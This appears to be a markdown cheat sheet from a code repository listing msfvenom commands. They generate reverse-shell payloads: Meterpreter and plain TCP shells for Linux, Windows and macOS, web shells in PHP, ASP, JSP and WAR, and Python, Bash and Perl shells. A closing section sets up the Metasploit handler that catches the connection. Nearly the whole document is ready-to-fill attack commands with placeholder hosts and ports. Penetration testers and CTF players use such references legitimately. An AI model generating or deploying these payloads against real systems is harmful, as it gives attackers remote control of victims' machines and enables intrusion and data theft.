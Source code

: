 ##msfvenom cheatsheet

**Basic Format Example**
```
msfvenom -p {PAYLOAD} LHOST={LHOST} LPORT={LPORT} -f {FORMAT} > file
```

**List all available paylods**
```
msfvenom --list payloads
```

## Binary Payloads

**Linux Meterpreter Reverse Shell**
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST={LHOST} LPORT={LPORT} -f elf > shell.elf
```

**Windows Meterpreter Reverse TCP Shell**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST={LHOST} LPORT={LPORT} -f exe > shell.exe
```

**Windows Reverse TCP Shell**
```
msfvenom -p windows/shell/reverse_tcp LHOST={LHOST} LPORT={LPORT} -f exe > shell.exe
```

**Mac Reverse Shell**
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST={LHOST} LPORT={LPORT} -f macho > shell.macho
```

## Web Payloads

**PHP Meterpreter Reverse TCP**
```
msfvenom -p php/meterpreter_reverse_tcp LHOST={LHOST} LPORT={LPORT} -f raw > shell.php
```

**ASP Meterpreter Reverse TCP**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST={LHOST} LPORT={LPORT} -f asp > shell.asp
```

**JSP Meterpreter Reverse TCP**
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST={LHOST} LPORT={LPORT} -f raw > shell.jsp
```

**WAR Reverse TCP**
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST={LHOST} LPORT={LPORT} -f war > shell.war
```

## Scripting Payloads

**Python Reverse TCP**
```
msfvenom -p cmd/unix/reverse_python LHOST={LHOST} LPORT={LPORT} -f raw > shell.py
```

**Bash Unix Reverse TCP**
```
msfvenom -p cmd/unix/reverse_bash LHOST={LHOST} LPORT={LPORT} -f raw > shell.sh
```

**Perl Reverse Reverse TCP**
```
msfvenom -p cmd/unix/reverse_perl LHOST={LHOST} LPORT={LPORT} -f raw > shell.pl
```

## Retrieving the back connect

Before executing your newly created shell, make sure to run the handler so you are listening for the incoming connection.

`use exploit/multi/handler`

`set payload {PAYLOAD}`

`set LHOST {LHOST}`

`set LPORT {LPORT}`

`run`

